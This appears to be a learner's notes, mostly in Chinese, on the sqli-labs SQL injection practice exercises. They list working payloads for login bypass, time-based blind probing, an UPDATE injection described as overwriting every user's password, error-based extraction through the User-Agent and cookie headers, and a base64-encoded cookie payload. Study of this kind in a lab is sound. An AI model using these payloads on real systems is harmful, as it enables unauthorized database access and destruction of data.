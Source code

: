 select username,password from table1 where username='' or '1'='1
' and password='' or '1'='1' limit 0,1;

admin' and if(ascii(substr(database(),1,1))=115,sleep(5),null) #

LIMBO 2023/1/3 16:13:58
less-17修改密码
（本题危害比较大）

update users set password='$p' where username='$u'

admin
' or 1=1 #

update users set password='' or 1=1 #' where username='admin'

会把数据库所有密码都改为1
update users set password=1

less-18开始http头注入

user-agent

insert into 'security'.'某个表'(uagent,ipadd,username) values('浏览器信息','ip地址','用户名')

使用\ 判断单引号闭合

' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1


insert into 'security'.'某个表'(uagent,ipadd,username) values('' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1','ip地址','用户名')

------

referer
来路流量（你是从哪个地方来的）

-------


cookie

admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #

cookie进行base64编码的

输入攻击语句之后，转化为base64encode即可
admin') and extractvalue(1,concat(0x7e,(select database()),0x7e)) #
编码之后
YWRtaW4nKSBhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBkYXRhYmFzZSgpKSwweDdlKSkgIw==

===================

主线任务：
less1-22全部搞定

争取不要看笔记，全流程！！！（除了盲注）

支线任务：
下载wireshark（windows版），抓http的数据包
